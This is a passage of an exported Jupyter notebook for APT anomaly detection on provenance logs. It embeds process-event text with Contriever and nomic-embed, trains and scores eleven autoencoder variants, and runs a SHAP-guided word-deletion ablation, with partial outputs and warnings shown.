        print(f"[!] Not enough positive drivers found to ablate (Found {len(sorted_indices)}). Skipping.")
        continue
        
    # Extract the actual word strings for the top 5 and top 10
    top_5_words = tokens[sorted_indices[:5]]
    top_10_words = tokens[sorted_indices[:min(10, len(sorted_indices))]]
    
    print(f" -> Top 5 Targets: {list(top_5_words)}")
    if len(sorted_indices) >= 10:
        print(f" -> Top 10 Targets: {list(top_10_words)}")
    
    original_text = test_texts[idx]
    
    # --------------------------------------------------
    # B. RETRIEVE VANILLA MODELS
    # --------------------------------------------------
    error_model = all_performers_emb_models[performer]
    background_tensor = all_performers_emb_backgrounds[performer]
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    
    def evaluate_ablation(text, stage_name):
        emb = get_contriever_emb(text)
        emb_tensor = torch.FloatTensor(emb).to(DEVICE)
        
        with torch.no_grad():
            mse = error_model(emb_tensor).cpu().numpy().flatten()[0]
            
        shap_vals = explainer_emb.shap_values(emb_tensor)
        if isinstance(shap_vals, list):
            shap_vals = shap_vals[0]
            
        shap_mean = np.mean(shap_vals) 
        
        return {
            "Performer": performer.upper(),
            "Ablation Stage": stage_name,
            "Recon Error": mse,
            "SHAP Mean": shap_mean,
            "Text": text
        }

    # Helper function to strip multiple words from a string
    def remove_multiple_words(text, words_to_remove):
        temp_text = text
        for w in words_to_remove:
            temp_text = re.sub(r'\b' + re.escape(w) + r'\b', '', temp_text, flags=re.IGNORECASE)
        # Clean up double spaces left behind by deleted words
        return re.sub(r'\s+', ' ', temp_text).strip()

    # --------------------------------------------------
    # C. EXECUTE MULTI-STAGE ABLATION (Mass Deletion)
    # --------------------------------------------------
    # Stage 1: Original Log
    ablation_results.append(evaluate_ablation(original_text, "1. Original"))
    
    # Stage 2: Delete Top 5 Tokens
    text_minus_5 = remove_multiple_words(original_text, top_5_words)
    ablation_results.append(evaluate_ablation(text_minus_5, f"2. Deleted Top 5 Words"))
    
    # Stage 3: Delete Top 10 Tokens
    text_minus_10 = remove_multiple_words(original_text, top_10_words)
    ablation_results.append(evaluate_ablation(text_minus_10, f"3. Deleted Top 10 Words"))

# ==========================================
# REQUESTED TABLE OUTPUT
# ==========================================
df_results = pd.DataFrame(ablation_results)

df_results["Recon Error"] = df_results["Recon Error"].apply(lambda x: f"{x:.6f}")
df_results["SHAP Mean"] = df_results["SHAP Mean"].apply(lambda x: f"{x:+.8f}")

print("\n" + "="*100)
print("📊 MULTI-WORD DELETION RESULTS: IMPACT OF REMOVING TOP 5 & 10 TOKENS")
print("="*100)

print(df_results[["Performer", "Ablation Stage", "Recon Error", "SHAP Mean"]].to_string(index=False))
print("="*100)

df_results.to_csv("vanilla_ablation_study_multi_deletion.csv", index=False)
print("✅ Saved full results to 'vanilla_ablation_study_multi_deletion.csv'")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


🚀 Starting Multi-Word Deletion Ablation Study (Vanilla AE)...

------------------------------------------------------------
🔹 RUNNING MULTI-WORD ABLATION FOR: 5DIR (Test Index: 2237)
------------------------------------------------------------
 -> Top 5 Targets: ['75', 'powershell', '117', 'framework', 'attribute']
 -> Top 10 Targets: ['75', 'powershell', '117', 'framework', 'attribute', 'nop', 'write', 'net', '30319', 'ep']

------------------------------------------------------------
🔹 RUNNING MULTI-WORD ABLATION FOR: CADETS (Test Index: 44924)
------------------------------------------------------------
 -> Top 5 Targets: ['network', 'alpine', 'head', 'change_principal', '12']
 -> Top 10 Targets: ['network', 'alpine', 'head', 'change_principal', '12', '128', '53', '55', 'sleep', 'unlink']

------------------------------------------------------------
🔹 RUNNING MULTI-WORD ABLATION FOR: CLEARSCOPE (Test Index: 2423)
------------------------------------------------------------
 -> Top 5

In [30]:
import pandas as pd
df_multi = pd.read_csv("vanilla_ablation_study_multi_deletion.csv")
df_multi

,Performer,Ablation Stage,Recon Error,SHAP Mean,Text
0,5DIR,1. Original,0.000206,-1.000000e-08,Process has event bind and event check_file_at...
1,5DIR,2. Deleted Top 5 Words,0.000267,-1.000000e-08,Process has event bind and event check_file_at...
2,5DIR,3. Deleted Top 10 Words,0.000329,-1.000000e-08,Process has event bind and event check_file_at...
3,CADETS,1. Original,0.000176,-0.000000e+00,Process has event close and event connect and ...
4,CADETS,2. Deleted Top 5 Words,0.000292,-0.000000e+00,Process has event close and event connect and ...
5,CADETS,3. Deleted Top 10 Words,0.000408,-0.000000e+00,Process has event close and event connect and ...
6,CLEARSCOPE,1. Original,0.000304,0.000000e+00,Process has event bind and event check_file_at...
7,CLEARSCOPE,2. Deleted Top 5 Words,0.000539,0.000000e+00,Process has bind check_file_attributes clone c...
8,CLEARSCOPE,3. Deleted Top 10 Words,0.000573,0.000000e+00,Process has check_file_attributes clone close ...
9,THEIA,1. Original,0.000484,-0.000000e+00,Process has event clone and event open and eve...


### 4. `nomic-ai/nomic-embed-text-v1.5`

#### Embedding generation

In [ ]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import matplotlib.pyplot as plt
import seaborn as sns
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import confusion_matrix, classification_report

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'
TARGET_PERFORMER = '5dir' 

print(f"🚀 Starting Contriever evaluation for {TARGET_PERFORMER.upper()}...")

# ==========================================
# 1. REDEFINE THE EXACT SAVED ARCHITECTURE (VanillaAE)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 2. LOAD DATA & EXTRACT TEXTS
# ==========================================
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

df = master_text_data[TARGET_PERFORMER]["ProcessAll"]
text_col = 'sentence' if 'sentence' in df.columns else 'text'
label_col = 'label' if 'label' in df.columns else 'y'
df = df.dropna(subset=[text_col]).reset_index(drop=True)

normal_df = df[df[label_col] == 0]
anomaly_df = df[df[label_col] == 1]
train_size = int(0.8 * len(normal_df))

train_texts = normal_df[text_col].tolist()[:train_size]
test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

# ==========================================
# 3. GENERATE CONTRIEVER EMBEDDINGS (Instead of TF-IDF)
# ==========================================
print("Loading Contriever Model...")
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb_batch(text_list, batch_size=32):
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
        with torch.inference_mode():
            outputs = embedder(**inputs)
            attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
            sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
            sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
            emb = sum_embeddings / sum_mask
            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
    return np.vstack(all_embs)

print("Generating Embeddings for Train and Test sets...")
X_train_emb = get_contriever_emb_batch(train_texts)
X_test_emb = get_contriever_emb_batch(test_texts)

# ==========================================
# 4. LOAD THE SAVED WEIGHTS FROM D: DRIVE
# ==========================================
input_dim = 768 # Force 768 for Contriever
autoencoder = VanillaAE(input_dim).to(DEVICE)

BASE_WEIGHTS_DIR = r"D:\Waleed FYP\saved_weights_contriever"
file_name = f"{TARGET_PERFORMER}_ProcessEvent_Robust.pth" # Keeping your file name exact
weights_path = os.path.join(BASE_WEIGHTS_DIR, file_name)

print(f"\nLoading weights from: {weights_path}")
autoencoder.load_state_dict(torch.load(weights_path, map_location=DEVICE))
autoencoder.eval() 

# ==========================================
# 5. CALCULATE ERRORS & APPLY THRESHOLD
# ==========================================
def get_reconstruction_errors(model, data_array):
    tensor = torch.FloatTensor(data_array).to(DEVICE)
    with torch.no_grad():
        reconstruction = model(tensor)
        mse = torch.mean((tensor - reconstruction) ** 2, dim=1).cpu().numpy()
    return mse

print("Calculating anomaly scores...")
train_errors = get_reconstruction_errors(autoencoder, X_train_emb)
test_errors = get_reconstruction_errors(autoencoder, X_test_emb)

# Define threshold: 99.5th percentile of NORMAL training errors
threshold = np.percentile(train_errors, 99.5)
print(f"Calculated Threshold: {threshold:.6f}")

predictions = (test_errors > threshold).astype(int)

# ==========================================
# 6. PLOT THE CONFUSION MATRIX
# ==========================================
cm = confusion_matrix(test_labels, predictions)

plt.figure(figsize=(8, 6))
sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
            xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
            yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
plt.title(f"Confusion Matrix: {TARGET_PERFORMER.upper()} Contriever Autoencoder")
plt.ylabel('True Label')
plt.xlabel('Predicted Label')
plt.show()

print("\nClassification Report:")
print(classification_report(test_labels, predictions, digits=4))

Using device: CUDA
Loading model: nomic-ai/nomic-embed-text-v1.5...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\Waleed\.cache\huggingface\hub\models--nomic-ai--nomic-embed-text-v1.5. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)
c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\hugging

Moving model to cuda...
Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (nomic-ai/nomic-embed-text-v1.5)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...
    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEA

#### Train Test Split

In [4]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your Nomic generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_nomic" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_nomic"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing Nomic suffixes
    key_name = filename.replace(".pkl", "").replace("_nomic", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR NOMIC-EMBED-TEXT-V1.5!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_nomic
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_nomic.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 768), Test: (2238, 768)
  ✓ Saved to: final_train_test_split_nomic\5dir\train\ProcessAll.pkl and final_train_test_split_nomic\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_nomic.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 768), Test: (2238, 768)
  ✓ Saved to: final_train_test_split_nomic\5dir\train\ProcessEvent.pkl and final_train_test_split_nomic\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_nomic.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 768), Test: (2223, 768)
  ✓ Saved to: final_train_test_split_nomic\5dir\train\ProcessExec.pkl and final_train_test_

#### Training and saving `.pth` files 

In [2]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for Nomic
BASE_DIR = "final_train_test_split_nomic"
RESULTS_FILE = "results_all_autoencoders_nomic.csv"
MODEL_SAVE_DIR = "saved_weights_nomic"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] nomic-ai/nomic-embed-text-v1.5 defaults to 768 dimensions
INPUT_DIM = 768     

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9261 | nDCG: 0.3401 (DCG: 1.4472, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.8845 | nDCG: 0.3314 (DCG: 1.4098, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9448 | nDCG: 0.3532 (DCG: 1.5026, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.8927 | nDCG: 0.322 (DCG: 1.3698, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.8521 | nDCG: 0.3238 (DCG: 1.3776, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.8585 | nDCG: 0.3211 (DCG: 1.366, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.9069 | nDCG: 0.3191 (DCG: 1.3575, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9376 | nDCG: 0.3218 (DCG: 1.369, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9329 | nDCG: 0.3275 (DCG: 1.3933, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.944 | nDCG: 0.3374 (DCG: 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
